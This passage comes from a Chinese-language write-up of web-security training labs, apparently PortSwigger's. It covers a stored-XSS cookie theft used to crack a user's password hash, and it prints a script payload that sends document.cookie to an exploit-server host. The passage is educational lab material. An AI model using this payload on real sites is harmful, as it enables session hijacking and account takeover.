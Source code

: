   
再添加base64加密  
  
爆破，直接200，登录成功![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrS2FKRysjlfnyOhNzNMpIibK0fTCbETV9Ejdte426ZQ2dCicMZf81ay1bg/640?wx_fmt=png&from=appmsg "")  
  
## 2.11 实验：离线密码破解  
  
**实验目标：**  
- 用户密码的hash存在cookie中，注释功能包含xss漏洞。  
  
- 获得carlos stay-logged-in的cookie，用来破解密码，登录并删除账户。**xss漏洞利用**  
view post可以发表评论![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSHKEFibqVVicibMPwoyel9Alg7YSZxYiasEkvqCl1paNrsdynwQl5hgvYcg/640?wx_fmt=png&from=appmsg "")  
在评论功能处插入反射型xss![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSzxaWFAh95VftFBQ3JRM4RSwI9Lvz6tibtWoXSX2dEopWmRLl4VCYBoQ/640?wx_fmt=png&from=appmsg "")  
  
  
提交后返回，有弹窗，xss漏洞存在![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSfpg1AYibqVstqmHFMWqphPRxHVsIyneCVD1YQ4zq2cnbCYFMaQc98XQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSibjelN7tyg58grskNIjv0icGtHiaAruJ7nLNNj4XBaCEUMQl4K1OO3dAw/640?wx_fmt=png&from=appmsg "")  
  
  
有一个漏洞服务器![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSczPPYhfo228yyRQdMVJIPJ8ABfNz97xbOBsywJr3AmicdwAYjjoTyMQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSdyr4MWxW7M4icvvRnW255KSIL4JuPt3RnoOj6K9HqLvIuHbmlZeTPGg/640?wx_fmt=png&from=appmsg "")  
  
  
窃取cookie payload，实验室会模拟 carlos 用户去访问新闻页面，并受到 XSS 攻击，我们设置的 Payload 会获取 carlos 用户的 Cookie，然后发送到服务器上。  
```
<script>document.location='https://域名/'+document.cookie</script>

<script>document.location='https://exploit-0a8800c604d4bab780d9078201aa006e.exploit-server.net/'+document.cookie</script>

```  
  
提交![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrS9GWr6XiasXuGZaD060CbBDiapTbgDkh7K7PiaaeFv7iaPeP1hzicJKzFXgQ/640?wx_fmt=png&from=appmsg "")  
查看日志，得到cookie![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSyNmm1ibjdmyVFDst8yhqxgm2yIDXXpbXVE9Oo6IZZjWzCibQXUicOMuIA/640?wx_fmt=png&from=appmsg "")  
抓一个my-account的包，将carlos的cookie填入，放行即可登录![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrS2U0pKrlicH6lpgsgTUpLFcOUTApPTNich3VbFyn9dbO5jiaWBEibiboP0gQ/640?wx_fmt=png&from=appmsg "")  
登录后删除密码。发现还是需要密码![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSYqicrBRdicKibkmcTIhEeIq5FEpB5ITOicVefTJDqspupvakUnh03v5hyg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSeTw9keS05kibfztg4U6tb3ryznW2S2TyGeWnlL944VGoxxVYEicXxu0g/640?wx_fmt=png&from=appmsg "")  
还是老老实实解密![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSEBfUqjgrD7n70ER2Y7PRPJIzgjicxyUAjk7PQntpoDvIibO778ib925KA/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jsRkWOfN8ZnZOouaa0F3xrSL9UoLpjKtkoOYJwC7Y43qiausXiaqONPunDBVcK7wkVHGcZU7qq4usRg/640?wx_fmt=png&from=appmsg "")  
  
## 2.12 实验：通过中间件进行密码重置中毒  
  